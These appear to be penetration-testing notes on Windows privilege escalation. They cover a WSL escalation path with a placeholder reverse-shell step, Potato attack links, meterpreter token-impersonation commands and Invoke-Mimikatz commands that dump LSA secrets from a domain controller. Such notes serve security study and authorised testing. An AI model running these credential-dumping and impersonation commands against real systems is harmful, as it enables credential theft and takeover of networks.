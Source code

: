 ### Escalation via WSL
```powershell
where /R c:\windows bash.exe
where /R c:\windows  wsl.exe

<full path of wsl> whoami
<full path of wsl> python -c 'bind or reverse shell python code'
```

If we execute the bash.exe, we are gonna be inside the WSL using Linux:

- Get a better shell with **pty.spawn**
- Look at the **history**


# Impersonation and Potato Attacks


Rotten Potato - https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

Juicy Potato - https://github.com/ohpe/juicy-potato


## What are tokens?
Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think cookies for computers.

### Two types
Delegate:
```
Created For logging into a machine or using Remote Desktop
```

Impersonate:
```
"non-interactive" such as attaching a network drive or a domain logon script
```

### Token Impersonation
in meterpreter:
```
- getuid
- load incognito
- list_tokens -u
- impersonate_token <domain\\user>
- shell
```

> When we try to dump LSA for example and we dont have access. We can try impersonate other user and execute as we were him/her 

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject" exit' -Computer <DC.domain.local>

privilege::debug
LSADump::LSA /patch
```
